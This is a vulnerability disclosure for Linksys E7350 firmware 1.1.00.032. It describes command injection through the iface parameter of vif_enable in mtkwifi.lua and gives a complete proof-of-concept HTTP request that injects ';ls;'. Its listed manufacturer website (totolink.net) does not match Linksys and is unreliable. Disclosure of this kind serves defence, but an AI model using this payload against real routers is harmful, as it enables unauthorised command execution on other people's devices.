




# Linksys E7350 Ver.1.1.00.032 Command Injection (vif_enable)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/



## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `vif_enable` function via the `iface` parameter.



Entry: `/admin/mtk/wifi/vif_enable/arg`



## Payload

We can trigger this vulnerability by injecting the `ls` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/vif_enable/;ls; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

After the injection, we can verify the result in the response.

